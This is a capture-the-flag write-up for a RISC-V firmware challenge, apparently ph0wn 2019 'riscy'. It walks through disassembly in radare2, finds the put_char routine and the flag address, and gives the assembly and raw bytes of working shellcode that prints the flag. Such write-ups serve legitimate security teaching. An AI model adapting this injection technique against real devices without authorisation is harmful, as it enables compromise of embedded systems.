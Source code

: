 ```
Send your shellcode, 50 bytes:
Shellcode received successfully!
Now, the big jump ...
GO
trap

Program has exited with code:0x38000002
```

The goal was to write a shellcode in RISC-V to extract the flag. Hopefully, the [firmware](/resources/2019/ph0wn/riscy/firmware.elf) was given and the architecture is supported by [radare2](https://rada.re/n/). We first found a call to the **put_char** function:

```nasm
0x08000f0a      13057004       li a0, 71
0x08000f0e      c522           jal sym.put_char   
0x08000f10      1305f004       li a0, 79
0x08000f14      e92a           jal sym.put_char  
```

This part of the code is printing the "GO" string. Thus the goal was to call the put_char function with the flag as a parameter. The flag string was stored at address 0x20000000

```terminal
[0x08000d4c]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00004000 0x20000000 31  32   .data   ascii ph0wn{xXxXxXxXxXxXxXxXxXxXxXxX}
```

Thanks to the given SDK we could assemble our code with the following command:
```terminal
toolchain-gd32v-v9.2.0-linux/bin/riscv-nuclei-elf-gcc -c shellcode.S -o shellcode
```

 During the CTF, we had problem with the relative jump and we extract the flag byte per byte. However later we correct our shellcode and we got the following code :

```nasm
_start:
    lui a3, 0x20000
    addi a3, a3, -1

loop:
    addi a3, a3, 1
    lbu a0, 0(a3)
    lui a1, 0x8001
    addi a1, a1, 238
    jalr ra, a1, 0
    j loop
```

Finally the complete shellcode was:

```python
b'\xb7\x06\x00 \x93\x86\xf6\xff\x93\x86\x16\x00\x03\xc5\x06\x00\xb7\x15\x00\x08\x93\x85\xe5\x0e\xe7\x80\x05\x00o\xf0\xdf\xfe\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
